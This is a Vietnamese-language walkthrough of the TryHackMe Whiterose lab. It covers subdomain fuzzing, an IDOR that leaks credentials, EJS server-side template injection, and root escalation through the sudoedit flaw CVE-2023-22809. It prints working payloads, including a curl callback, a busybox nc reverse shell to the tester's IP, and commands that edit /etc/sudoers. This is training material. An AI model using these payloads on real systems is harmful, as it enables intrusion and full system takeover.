 <div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động taget
![Start taget](Images/Start_machine.png)

## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```
![Nmap](Images/Recon_nmap.png)

- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.

![Browser](Images/Recon_browser.png)

- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.

![hosts](Images/Recon_hosts.png)

- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
![gobuster](Images/Subdomain_gobuster.png)

- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```

![ffuf](Images/Subdomain_ffuf.png)

- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`

![login page](Images/Subdomain_admin.png)

- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.

![login success](Images/Login_success.png)


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.
![Tyrell Wellick](Images/Web1.png)

- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`

![Messages](Images/Web_mess.png)

- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`

![IDOR](Images/Web_IDOR.png)

- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`

![Tyrell](Images/Tyrell_phone.png)

- Submit thành công answer 1

![Tyrell](Images/Tyrell_correct.png)

## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.

![setting](Images/WebShell1.png)

- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.

![BurpSuite](Images/Burp_request.png)

- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.

![BurpSuiteEjs](Images/Burp_request2.png)

- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 

![Hoangdeptrai](Images/Ejs_payload.png)

![Hoangdeptrai](Images/Ejs_pythonServer.png)

- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com
![Hoangdeptrai](Images/Reverse.com.png)

- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`
![Hoangdeptrai](Images/Insert_payload.png)

![Hoangdeptrai](Images/Reverse_shell.png)

- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:
![Hoangdeptrai](Images/Update_shell.png)

- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`

![Hoangdeptrai](Images/Flag1.png)

![Hoangdeptrai](Images/Flag1.1.png)

## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`
![Hoangdeptrai](Images/sudo-l.png)

- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 

![Hoangdeptrai](Images/sudoedit_cve.png)

- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`
![Hoangdeptrai](Images/CVE-2023-22809.png)
- Kiểm tra phiên bản sudo của máy chủ:

![Hoangdeptrai](Images/sudoedit-v.png)

-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`

![Hoangdeptrai](Images/All_root.png)
- Sau khi chèn thành công, `sudo su` để vào quyền root

![Hoangdeptrai](Images/Sudo-su.png)

- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`

![Hoangdeptrai](Images/flag2.png)

![Hoangdeptrai](Images/flag2.2.png)

=> Hoàn thành Lab :) 🔥🔥🔥

![Hoangdeptrai](Images/Complete.png)















